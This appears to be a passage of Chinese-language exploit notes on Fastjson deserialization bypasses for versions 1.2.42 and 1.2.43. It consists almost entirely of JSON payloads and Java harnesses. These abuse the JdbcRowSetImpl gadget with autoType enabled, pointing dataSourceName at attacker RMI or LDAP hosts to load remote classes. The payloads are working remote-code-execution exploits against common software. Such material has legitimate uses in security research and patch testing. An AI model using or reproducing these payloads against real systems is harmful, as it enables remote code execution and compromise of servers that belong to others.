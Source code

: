poc

```json
{
  "a": {
    "@type": "com.sun.rowset.JdbcRowSetImpl",
    "dataSourceName": "rmi://<攻击机IP>:<端口>/Exploit",
    "autoCommit": true
  }
}
```

### Fastjson1.2.42

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson24 {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        // 修正后的payload格式
        String payload = "{    \"@type\":\"LLcom.sun.rowset.JdbcRowSetImpl;;\",  " +
                "  \"dataSourceName\":\"ldap://192.168.32.128:50389/c51b9b\",    " +
                "\"autoCommit\":true}";
        JSON.parse(payload);
    }
}
```

poc

```
{   
	"@type":"LLcom.sun.rowset.JdbcRowSetImpl;;",    
	"dataSourceName":"ldap://127.0.0.1:1234/Exploit",    
	"autoCommit":true  
}
```

## Fastjson 1.2.43

```java
package com.example.fastjson.Fastjson1_2_24;

import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.ParserConfig;

public class Fastjson24 {
    public static void main(String[] args) {
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        // 修正后的payload格式
        String payload =
                "{\n" +
                "    \"@type\":\"[com.sun.rowset.JdbcRowSetImpl\"[,\n" +
                "    {\"dataSourceName\":\"ldap://192.168.32.128:50389/c51b9b\",\n" +
                "    \"autoCommit\":true\n" +
                "}";
        JSON.parse(payload);
    }
}
```
